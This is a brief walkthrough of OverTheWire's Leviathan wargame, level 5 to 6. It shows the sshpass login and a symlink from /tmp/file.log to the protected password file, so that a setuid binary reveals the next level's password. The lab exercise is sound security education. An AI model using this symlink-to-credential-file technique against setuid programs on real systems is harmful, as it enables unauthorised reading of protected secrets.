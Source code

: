 ## Level 5 to 6


To Login:
```bash
sshpass -p $(cat leviathan5) ssh -p 2223 leviathan5@leviathan.labs.overthewire.org
```

Listing out will find a setuid ELF *leviathan5* executing it you will learn that it reads the file */tmp/file.log*. So, logic is to Symlink the */tmp/file.log* to */etc/leviathan_pass/leviathan6* to read the password.

```bash
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
Execute leviathan5
```bash
./leviathan5
```

Save the password to file *leviathan6*

At last ```exit``` and ```logout```